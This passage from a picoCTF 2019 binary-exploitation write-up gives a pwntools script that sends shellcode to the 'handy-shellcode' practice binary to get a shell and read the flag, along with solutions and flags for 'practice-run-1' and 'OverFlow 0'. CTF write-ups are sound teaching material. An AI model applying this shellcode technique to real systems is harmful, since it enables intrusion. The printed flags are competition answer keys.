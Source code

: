 ```python
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('/problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9/vuln')
  REMOTE = True

sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
sh.sendlineafter('$ ', 'cat /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9/flag.txt')
sh.interactive()

```
  
flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`

# practice-run-1

## Problem

You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this program to receive a flag.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/practice-run-1/run_this)

## Solution

```term
$ ssh alanc@2019shell1.picoctf.com
alanc@pico-2019-shell1:~$ cd /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e
alanc@pico-2019-shell1:/problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e$ ./run_this 
picoCTF{g3t_r3adY_2_r3v3r53}
```

flag: `picoCTF{g3t_r3adY_2_r3v3r53}`

# OverFlow 0

## Problem

This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7 on the shell server. Source.

[Binary](/blog/piOverFlow 0coctf-2019-writeup/binary-exploitation/OverFlow 0/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/OverFlow 0/vuln.c)

## Solution


Same as [buffer-overflow-0](/blog/posts/picoctf-2018-writeup/binary-exploitation/#buffer-overflow-0) from last year.
